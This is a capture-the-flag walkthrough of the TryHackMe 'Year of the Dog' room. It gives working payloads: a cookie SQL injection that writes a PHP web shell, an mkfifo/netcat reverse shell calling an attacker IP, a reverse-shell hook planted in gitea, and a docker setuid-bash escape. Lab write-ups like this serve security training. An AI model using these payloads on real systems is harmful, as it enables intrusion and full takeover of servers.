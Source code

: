 # Year of the Dog

https://tryhackme.com/room/yearofthedog

A hard room that required *a lot* of enumeration before I figured it out, including a few dead ends.

## Getting a shell

- A scan revealed only `22` and `80`
- On `80`, a page with no interaction that told me I was in a queue. A cookie was being set - clearing it randomly assigned me a new cookie and a new position in the queue
- The cookie value, if changed to `id='` triggered a mysql error. Via this, I discovered it was a server with one database, webapp, containing one table queue with two columns `userId` and `queueNum`. There seemed to be some primitive 'RCE protection in place' - certain queries would throw an error.
- I discovered that lowercase load_file and dumpfile worked (uppercase versions triggered the RCE error) - I extracted `/etc/passwd` this way, seeing there was a user named dylan
- Via this vuln, I got the `config.php` file (guessing correctly it was at `/var/www/html` and loading it into a text file in the same directory that I could access) and `index.php`
- `config.php` gave me the db creds. With `index.php` I could see that in addition to the banned words, `<` and `>` was blocked making PHP injection difficult. 
- however, I was able to get a primitive web shell via: `Cookie: id='+UNION+ALL+SELECT+'',concat(char(60),'?php+echo+shell_exec($_GET["e"])+?',char(62))+INTO+dumpfile+'/var/www/html/shell.php'+--+`, abusing MySql's `char` command to get around the `<`/`>` limits.
- the following got me a reverse shell: `/shell.php?e=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.154.104+4444+>/tmp/f`. this was then stabilised and improved with `python3 -c 'import pty; pty.spawn("/bin/bash")'` and then `export TERM=xterm`, Ctrl + Z, `stty raw -echo; fg`

## Getting user

- on the box as `www-data`, I discovered `dylan` was running an instance of gitea (a self contained git server, like gitlab or github) on port `3000`. not accessible from the outside, however, via  `ssh -N -R 3000:localhost:3000 root@10.10.154.104` I could get access to it on my attack machine (Note, while fine here, running a root ssh session on a target machine is NOT a good idea - creds could be nicked, session hijacked anything).
- enumerating this for *hours* got me nowhere. eventually, i went back over the machine with `linpeas.sh` and checked over a file I had seen earlier: `work_analysis`, plain ascii, in dylan's home dir. I had checked this before, seen it as a list of sshd failures with nothing of note. on the second check, huge facepalm, I found it had an entry for a failed login that was obviously the user dylan typing his password as his username. trying this I was able to `su` as dylan.

## Getting root

This was complex. Dylan owned all the files in /gitea, so I figured it was something to do with that.

- i tried to find the gitea executable via `find / -name gitea -type f 2>/dev/null`. I couldn't find it, but i did find git hook config files for each repo
- i had already created a test repo, and it had a file here: `/gitea/git/repositories/dylan/test-repo.git/hooks/update.d/gitea`, the contents of which looked like a standard bash file
- i appended a reverse shell call and then updated the repo. I got a call back! as user `git`
- git had rights to sudo as everything, so I elevated to root and done... right?
- quickly realised I was in a docker container on the main machine, and so no. also, it wasn't a privileged container.
- HOWEVER, the /data/gitea folder inside the container was mapped to /gitea/gitea on the host and they hadn't enabled user remapping in docker! documented here, https://docs.docker.com/engine/security/userns-remap/, in brief, it stops root inside the container from ALSO being effectively root on the host.
- so the final exploit was to copy bash into that mapped folder, use the container root to invoke `chown root bash` and `chmod u+s bash` then invoke it from outside as dylan via `./bash -p`. Boom, root

Very fun, very long. Spent around four hours on this - mostly trying to get various gitea exploits to run. That reverse port forward was ultimately unnecessary, but worth learning for the future.
